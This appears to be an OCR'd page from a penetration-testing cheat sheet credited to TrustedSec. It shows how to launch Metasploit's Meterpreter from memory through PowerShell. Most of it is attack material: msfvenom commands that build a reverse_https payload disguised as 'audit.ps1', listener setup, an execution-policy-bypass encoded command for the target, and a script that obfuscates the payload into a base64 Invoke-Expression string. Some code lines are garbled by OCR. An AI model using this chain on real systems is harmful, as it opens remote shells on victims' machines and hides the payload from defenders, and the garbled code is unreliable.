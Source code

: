 
### USING POWERSHELL TO LAUNCH METERPRETER FROM MEMORY

/	Need Metasploit v4.5+ (msfvenom supports Powershell)
/	Use Powershell (x86) with 32 bit Meterpreter payloads
/	encode5leterpreter.ps1 script can be found on next page


ON ATTACK BOXES

1.	./msfvenom -p windows/meterpreter/reverse_https -f psh -a x86
LHOST=1.1.1.1 LPORT=443	audit.ps1
2. Move audit.ps1 into same folder as encodeMeterpreter.ps1
3. Launch Powershell (x86)
4.	powershell.exe -executionpolicy bypass encodeMeterpreter.ps1
5. Copy the encoded Meterpreter string


START LISTENER ON ATTACK BOX

1. ./msfconsole
2. use exploit/multi/handler
3.	set payload windows/meterpreter/reverse_https
4.	set LHOST 1.1.1.1
5.	set LPORT 443
6. exploit -j


ON TARGET (MUST USE POWERSHELL (X86))

1.	powershell.exe -noexit -encodedCommand paste encoded Meterpreter
string here
PROFIT


ENCODEMETERPRETER . PS [ 7 ]

# Get Contents of Script
$contents = Get-Content audit.ps1
# Compress Script
$ms = New-Object IO.MemoryStream
$action = [IO.Compression.CompressionMode]::Compress
$cs = New-Object IO.Compression.DeflateStream ($ms,$action)
$sw = New-Object IO.StreamWriter ($cs, [Text.Encoding]::ASCII)
Scontents I ForEach-Object {$sw.WriteLine($_))
$sw.Close()
# Base64 Encode Stream
$code = [Convert]::ToBase64String($ms.ToArray())
$command = "Invoke-Expression '$ (New-Object IO.StreamReader('$(New-Object IO.Oompression.DeflateStream ('$(New-Object IO.MemoryStream (,'$([Convert]::FromBase64String('"$code'")))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();"
# Invoke-Expression $command
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes)
# Write to Standard Out Write-Host $encodedCommand
Copyright 2012 TrustedSec, LW. All rights reserved. Please see reference [7] for disclaimer
